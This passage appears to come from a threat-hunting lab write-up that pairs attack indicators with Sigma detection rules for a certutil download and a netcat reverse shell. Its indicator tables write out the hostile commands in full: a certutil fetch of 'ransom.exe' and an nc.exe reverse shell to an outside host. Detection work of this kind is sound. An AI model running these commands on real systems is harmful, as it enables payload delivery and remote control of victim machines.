 • Execution of Certutil tool to download Netcat binary.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| Certutil Download | Image: certutil.exe
Command Line: certutil -urlcache -split -f http://huntmeplz.com/ransom.exe ransom.exe |

```yaml
title: Certutil Download
id: 0f06a3a5-6a09-413f-8743-e6cf35561292
status: experimental
description: Detecting certutil file ingress
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection:
  EventID: 1      
  CommandLine|contains|all: 
  - "certutil"
  - "-urlcache"
  - "-split"
  - "-f"
  Image|endswith: "certutil.exe"
 condition: selection
level: high
```

## Challenge 3

• Netcat execution to establish a reverse shell.

| Attack Technique | Indicators of Compromise |
| --- | --- |
| Netcat Reverse Shell | Image: nc.exe
Command Line: C:\Users\victim\AppData\Local\Temp\nc.exe huntmeplz.com 4444 -e cmd.exe
MD5 Hash: 523613A7B9DFA398CBD5EBD2DD0F4F38 |

```yaml
title: Netcat Execution
id: 0f06a3a5-6a09-413f-8743-e6cf35561293
status: experimental
description: Detecting netcat reverse shell
author: void
date: 17/01/2023
logsource:
 category: process_creation
 product: windows
detection:
 selection1:
  Image|endswith: '*nc.exe'
  EventID: 1
  CommandLine|contains|all: 
  - ' -e '
  - 'cmd.exe'
 selection2:
  Hashes|contains: '523613A7B9DFA398CBD5EBD2DD0F4F38'

 condition: selection1 or selection2
level: high
```
